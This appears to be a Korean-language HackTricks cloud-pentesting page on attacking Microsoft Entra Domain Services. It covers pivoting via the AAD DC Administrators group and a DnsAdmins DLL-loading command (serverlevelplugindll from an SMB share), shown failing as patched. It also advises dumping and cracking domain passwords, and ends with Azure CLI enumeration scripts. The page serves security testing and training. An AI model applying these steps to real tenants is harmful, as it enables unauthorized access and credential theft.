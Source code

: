 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services는 도메인 컨트롤러를 관리할 필요 없이 Azure에서 Active Directory를 배포할 수 있게 해줍니다 (실제로 도메인 컨트롤러에 대한 접근 권한도 없습니다).

주요 목표는 현대 인증 방법을 사용할 수 없는 레거시 애플리케이션을 클라우드에서 실행할 수 있도록 하거나, 디렉터리 조회가 항상 온프레미스 AD DS 환경으로 돌아가기를 원하지 않는 경우입니다.

Entra ID에서 생성된 사용자(다른 Active Directory에서 동기화되지 않은 사용자)를 AD 도메인 서비스에 동기화하려면 **사용자의 비밀번호를 새 비밀번호로 변경해야** 합니다. 실제로 비밀번호가 변경되기 전까지 사용자는 Microsoft Entra ID에서 도메인 서비스로 동기화되지 않습니다.

> [!WARNING]
> 새 Active Directory 도메인을 생성하더라도 완전히 관리할 수는 없습니다 (일부 잘못된 구성을 이용하지 않는 한), 즉 기본적으로 AD에서 직접 사용자를 생성할 수 없습니다. 사용자는 **Entra ID에서 사용자를 동기화하여** 생성합니다. 모든 사용자(다른 온프레미스 AD에서 동기화된 사용자 포함), 클라우드 사용자(Entra ID에서 생성된 사용자) 또는 **더욱 필터링할 수 있습니다**.

> [!NOTE]
> 일반적으로 새로운 도메인의 구성 유연성이 부족하고 AD가 보통 온프레미스에 이미 존재하기 때문에, 이는 Entra ID와 AD 간의 주요 통합은 아니지만, 이를 타협하는 방법을 아는 것은 여전히 흥미롭습니다.

### Pivoting

생성된 **`AAD DC Administrators`** 그룹의 구성원은 관리 도메인에 도메인 가입된 VM에서 로컬 관리자 권한을 부여받습니다 (하지만 도메인 컨트롤러에서는 아닙니다) 왜냐하면 이들이 로컬 관리자 그룹에 추가되기 때문입니다. 이 그룹의 구성원은 **원격 데스크톱을 사용하여 도메인 가입된 VM에 원격으로 연결할 수** 있으며, 또한 다음 그룹의 구성원입니다:

- **`Denied RODC Password Replication Group`**: 이 그룹은 RODC(읽기 전용 도메인 컨트롤러)에서 비밀번호를 캐시할 수 없는 사용자 및 그룹을 지정합니다.
- **`Group Policy Creators Owners`**: 이 그룹은 구성원이 도메인에서 그룹 정책을 생성할 수 있게 해줍니다. 그러나 구성원은 사용자나 그룹에 그룹 정책을 적용하거나 기존 GPO를 편집할 수 없으므로 이 환경에서는 그리 흥미롭지 않습니다.
- **`DnsAdmins`**: 이 그룹은 DNS 설정을 관리할 수 있게 해주며, 과거에 [권한 상승 및 도메인 타협을 위해 악용되었습니다](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), 그러나 이 환경에서 공격을 테스트한 결과 취약점이 패치된 것으로 확인되었습니다:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
AD 내에서 이러한 권한을 부여하려면 **`AAD DC Administrators`** 그룹이 이전 그룹의 구성원으로 만들어지고, GPO **`AADDC Computers GPO`**가 도메인 그룹 **`AAD DC Administrators`**의 모든 구성원을 로컬 관리자에 추가합니다.

Entra ID에서 Domain Services로 생성된 AD로의 피벗은 간단합니다. **`AAD DC Administrators`** 그룹에 사용자를 추가하고, 도메인의 모든 머신에 RDP로 접근하면 데이터를 훔치고 **도메인을 타협할 수 있습니다.**

그러나 도메인에서 Entra ID로의 피벗은 쉽지 않습니다. 도메인에서 Entra ID로 동기화되는 것이 없기 때문입니다. 그러나 항상 메타데이터를 확인하여 할당된 관리 ID가 흥미로운 권한을 가질 수 있습니다. 또한 **도메인에서 모든 사용자 비밀번호를 덤프하고 이를 크랙하여 Entra ID / Azure에 로그인해 보십시오.**

> [!NOTE]
> 과거에 이 관리 AD에서 DC를 타협할 수 있는 다른 취약점이 발견되었음을 유의하십시오, [이와 같은](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). DC를 타협한 공격자는 Azure 관리자들이 알아차리거나 제거할 수 없도록 쉽게 지속성을 유지할 수 있습니다.

### Enumeration
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../banners/hacktricks-training.md}}
